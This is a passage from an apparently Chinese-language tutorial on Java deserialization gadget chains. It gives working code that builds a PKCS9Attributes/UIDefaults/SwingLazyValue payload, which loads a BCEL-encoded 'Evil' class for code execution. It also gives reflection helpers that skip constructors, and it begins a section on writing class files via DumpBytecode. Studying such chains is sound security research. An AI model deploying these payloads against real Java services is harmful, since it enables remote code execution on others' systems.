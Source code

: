 ```java
    public static void main(String[] args) throws Exception {
        JavaWrapper._main(new String[]{getBCEL(), "p4d0rn"});
    }

    public static String getBCEL() throws Exception {
        JavaClass javaClass = Repository.lookupClass(Evil.class);
        String encode = Utility.encode(javaClass.getBytes(), true);
        return "$$BCEL$$" + encode;
    }
```

> 输出
>
> static block
>
> _main

```java
public static Object bcel() throws Exception {
    UIDefaults uiDefaults = new UIDefaults();
    SwingLazyValue slz = new SwingLazyValue("com.sun.org.apache.bcel.internal.util.JavaWrapper", "_main", new Object[]{new String[]{getBCEL(), "p4d0rn"}});
    PKCS9Attributes pkcs9Attributes = createWithoutConstructor(PKCS9Attributes.class);
    Class clazz = Class.forName("sun.security.pkcs.PKCS9Attribute");
    Field pkcs = clazz.getDeclaredField("PKCS9_OIDS");
    pkcs.setAccessible(true);
    uiDefaults.put(((ObjectIdentifier[]) pkcs.get(null))[1], slz);
    setFieldValue(pkcs9Attributes, "attributes", uiDefaults);
    return pkcs9Attributes;
}
public static <T> T createWithoutConstructor(Class<T> classToInstantiate) throws NoSuchMethodException, InstantiationException, IllegalAccessException, InvocationTargetException {
    return createWithConstructor(classToInstantiate, Object.class, new Class[0], new Object[0]);
}

public static <T> T createWithConstructor(Class<T> classToInstantiate, Class<? super T> constructorClass, Class<?>[] consArgTypes, Object[] consArgs) throws NoSuchMethodException, InstantiationException, IllegalAccessException, InvocationTargetException {
    Constructor<? super T> objCons = constructorClass.getDeclaredConstructor(consArgTypes);
    objCons.setAccessible(true);
    Constructor<?> sc = ReflectionFactory.getReflectionFactory().newConstructorForSerialization(classToInstantiate, objCons);
    sc.setAccessible(true);
    return (T) sc.newInstance(consArgs);
}
```

> 注：BCEL Classloader在 JDK < 8u251之前还在rt.jar里面 原生JDK

# 0x04 ProxyLazyValue + DumpBytecode + System.load

`jdk.nashorn.internal.codegen.DumpBytecode#dumpBytecode`是静态方法，能够写class文件
